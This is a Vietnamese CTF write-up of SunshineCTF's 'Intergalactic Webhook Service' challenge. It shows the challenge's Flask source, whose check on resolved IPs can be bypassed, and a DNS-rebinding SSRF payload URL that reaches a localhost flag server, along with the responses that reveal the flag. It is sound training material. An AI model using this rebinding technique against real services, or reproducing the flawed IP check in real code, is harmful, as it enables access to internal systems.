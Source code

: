 # **Intergalactic Webhook Service**

image.png

Bài này có source nên có thể tham khảo source ở đây: [Writeup_SunshineCTF/src at main · TranDongA3/Writeup_SunshineCTF](https://github.com/TranDongA3/Writeup_SunshineCTF/tree/main/src)

Bài này thì có 2 chức năng chính sau:

image.png

```
@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200
```

```python
@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500
```

Đăng ký webhook, và kích hoạt webhook id trả về từ đăng ký.

Ngoài ra còn có hàm phụ như là:

```python
def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None
```

Hàm này để check url thôi, hàm urlparse(url) dùng để tách các phần của url để kiểm tra tính hợp lệ , ip sẽ tiến hành lấy ip từ tên miền bằng hàm socket.gethostbyname(host)nếu mà thuộc những trường hợp kiểm tra như trên thì trả về False.

Nếu mà thành công thì trả về:

return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

Và có thể lấy id này để trigger đến URL . Ở đây mục tiêu flag của chúng ta đang nằm ở [localhost](http://localhost) :

```python
def load_flag():
    with open('flag.txt', 'r') as f:
        return f.read().strip()

FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()
```

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

Có một luồng được khởi tạo song song với chương trình chạy ở [localhost](http://localhost) cồng 5001, thực hiện function FlagHanlder, nếu nếu là /flag thì sẽ trả về nội dung của nó . Lỗi này sẽ thấy rõ luôn là SSRF cụ thể là dùng kỹ thuật DNS rebinding để khai thác.

Cơ bản về kỹ thuật đó chính là dùng một tên miền ban đầu phân giải sẽ được một địa chỉ ip public như 8.8.8.8 (hoặc khác) nhưng mà lần sau sẽ phân giải ra là 127.0.0.1 . Để hiện thực hóa kỹ thuật đó ta sẽ dùng một dịch vụ có sẵn là : http://1u.ms/

Ta thử : 

image.png

Quá hay đúng không. Cụ thể hơn sẽ là trường hợp này:

http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag

image.png

Sau khi đăng ký trả về như này:

`{"id":"2ce6a28c-f69c-4b59-9d75-38d306734406","status":"registered","url":"http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag"}`

Lấy id để trigger thì được:

`{"response":"sun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}","status":200,"url":"http://make-8.8.8.8-rebind-127.0.0.1-rr.1u.ms:5001/flag"}`